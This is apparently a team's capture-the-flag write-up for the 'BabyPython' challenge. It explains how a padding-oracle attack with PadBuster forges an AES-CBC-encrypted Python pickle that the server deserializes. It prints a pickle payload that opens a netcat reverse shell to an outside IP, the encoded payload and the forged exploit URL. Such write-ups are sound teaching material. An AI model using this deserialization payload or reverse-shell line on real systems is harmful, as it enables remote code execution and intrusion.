


# BabyPython - "1 CAT COMPANY CTF" crypto and deserialization challenge


On the [1 CAT COMPANY CTF](https://2021.ctf.cyhub.am/) we didn't manage to finalize our solution for the [BabyPython challenge](http://baby.2021.ctf.cyhub.am/), created by [Vahe Karapetyan](https://twitter.com/k3mmio), but one of our team members - [Varik Matevosyan](https://twitter.com/D4RK7ET), solved it anyways after the time was up.
<!--more-->


Below is his write-up, enjoy!

### Analyzing the challenge
One of the most interesting and difficult challenges on the [1Cat CTF](https://2021.ctf.cyhub.am/) was the ["Baby Python"](http://baby.2021.ctf.cyhub.am/).
In the challenge description we find a URL and a python file to download:
```
endpoint: http://baby.2021.ctf.cyhub.am/
files: https://2021.ctf.cyhub.am/materials/securepickle.py
```

Let's first check the website. When we open the page we can see that each time it is giving us a random string. e.g.



After taking a look at the provided source code we see this a crypto challenge:
```python
import base64
import pickle

from Crypto.Cipher import AES
from Crypto.Util.Padding import pad, unpad
from Crypto.Random import get_random_bytes

class AESCipher:
    def __init__(self, key):
        self.key = pad(key.encode('utf-8'), AES.block_size)

    def encrypt(self, data):
        iv = get_random_bytes(AES.block_size)
        self.cipher = AES.new(self.key, AES.MODE_CBC, iv)
        return base64.b64encode(iv + self.cipher.encrypt(pad(data, AES.block_size)))

    def decrypt(self, data):
        raw = base64.b64decode(data)
        self.cipher = AES.new(self.key, AES.MODE_CBC, raw[:AES.block_size])
        return unpad(self.cipher.decrypt(raw[AES.block_size:]), AES.block_size)


class SecurePickle:
    """Baby Devloper wanted to secure the pickle. Since it's not secure. Absolutely. Let's Encrypt"""

    def __init__(self, key):
        self.key = key
        self.encryptor = AESCipher(key)

    def loads(self, pickled_string):
        decrypted_string = self.encryptor.decrypt(pickled_string)
        return pickle.loads(decrypted_string)

    def dumps(self, object_to_pickle):
        encrypted_string = self.encryptor.encrypt(object_to_pickle)
        return encrypted_string

    def dumps2(self, object_to_pickle):
        pickled_string = pickle.dumps(object_to_pickle)
        encrypted_string = self.encryptor.encrypt(pickled_string)
        return encrypted_string
```

### Python pickle
So the `SecurePickle` class is for loading decrypted pickles and for dumping encrypted ones. As eval is evil so is the pickle. So if we will be able to pass our payload to `pickle.loads` method it will execute our code.
But we have 2 problems before moving forward:
- Where is the endpoint accepting user input and passing it into the `pickle.loads` sink?
- And the second one is that the strings are encrypted with CBC encryption, so we need a key to construct our payload, or do we?

The first problem was solved pretty easily, we just ran a directory fuzzer, found `/loads` endpoint, then ran [param miner](https://portswigger.net/bappstore/17d2949a985c4b7ca092728dba871943) and found out that it accepts `?obj=` query parameter. Passing any encrypted string we got previously from the request to website root `http://baby.2021.ctf.cyhub.am/`, the page responds with a plaintext string `test!`.
```
http://baby.2021.ctf.cyhub.am/loads?obj=x+u/CzCbuoRHIkNhAuvVYcTZrfVsq1zgSKxYfguM8UYpgwVPQAOMxvBfgwkIh7vz
```

We can consider that this method decrypts the CBC message and passes it to `pickle.loads` function, so this surely is the source.

### Padding oracle attack

As the first problem is solved, let's find out whether or not we can construct a payload that will be decrypted by the server. After some googling, we found out that CBC encryption is vulnerable to **Padding oracle attacks** if it is padded by a random IV, which is true in this case.

Here are some resources that helped us understand the attack:
- https://www.youtube.com/watch?v=aH4DENMN_O4
- https://www.youtube.com/watch?v=7XZdsR0jHjo
- https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/09-Testing_for_Weak_Cryptography/02-Testing_for_Padding_Oracle

TL;DR - an attacker can encrypt an arbitrary message without knowing the encryption key and that's what we needed.

### PadBuster
During further research, we also found a ready-to-go exploit by [Aon’s Cyber Labs](https://www.aon.com/cyber-solutions/aon_cyber_labs/) - [PadBuster](https://github.com/AonCyberLabs/PadBuster) which is a Perl script that will automatically exploit the vulnerable server after passing some required arguments to it.
```BASH
padBuster.pl <URL> EncryptedSample BlockSize(16) -error 'PKCS#7 padding is incorrect.' -encodedtext 'our payload with malicious code'
```

### Exploit
To generate the proper payload we should dump a string with pickle and encode it with base64:
```python
import pickle
import base64
import os

class Payload:
    def __reduce__(self):
        cmd = ('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 54.212.140.241 4444 >/tmp/f')
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(Payload())
    print(base64.urlsafe_b64encode(pickled))
```

This will open a reverse shell to our remote server at `54.212.140.241`.

So the final arguments for the script will be:
```BASH
perl padBuster.pl 'http://baby.2021.ctf.cyhub.am/loads?obj=X4Dpl9XXEOf5zaa3hyTFcfOkfxIFQ9BfgIwkuA3KNBu85ZOKRM1U4rIkEbxYL0qI' X4Dpl9XXEOf5zaa3hyTFcfOkfxIFQ9BfgIwkuA3KNBu85ZOKRM1U4rIkEbxYL0qI 16 -error "PKCS#7 padding is incorrect." -encodedtext 'gASVbAAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjFFybSAvdG1wL2Y7bWtmaWZvIC90bXAvZjtjYXQgL3RtcC9mfC9iaW4vc2ggLWkgMj4mMXxuYyA1NC4yMTIuMTQwLjI0MSA0NDQ0ID4vdG1wL2aUhZRSlC4='
```

After running the script and waiting about 30-40 minutes we get our encrypted message:
```
Block 1 Results:
[+] New Cipher Text (HEX): ade7fd36447b7b059ad590bb4f94df60
[+] Intermediate Bytes (HEX): 2de3685a447b7b059ad590374ae4b013

-------------------------------------------------------
** Finished ***

[+] Encrypted value is: ref9NkR7ewWa1ZC7T5TfYOMRK%2Fvi1bbhFMwDF52RGJo4VO%2FGV8i6LzWQOb4Xt6RPCE5u6tK79BOyMuPZKNb7eZHoMW8PLbFKu9ffqe3UqBZ3Ku5sqqvKIi0hr0yuSzIRB79ewBeca95BfXrZBXDUa83MgM9NNqc80d2pKODxcjYAAAAAAAAAAAAAAAAAAAAA
-------------------------------------------------------
```

Now let's set a Netcat listener at port 4444 `nc -l 4444` and pass the payload to the server:
```
http://baby.2021.ctf.cyhub.am/loads?obj=ref9NkR7ewWa1ZC7T5TfYOMRK%2Fvi1bbhFMwDF52RGJo4VO%2FGV8i6LzWQOb4Xt6RPCE5u6tK79BOyMuPZKNb7eZHoMW8PLbFKu9ffqe3UqBZ3Ku5sqqvKIi0hr0yuSzIRB79ewBeca95BfXrZBXDUa83MgM9NNqc80d2pKODxcjYAAAAAAAAAAAAAAAAAAAAA
```

As soon as the page is opened we get our reverse shell and reading the environment variables, we find the long-awaited flag:


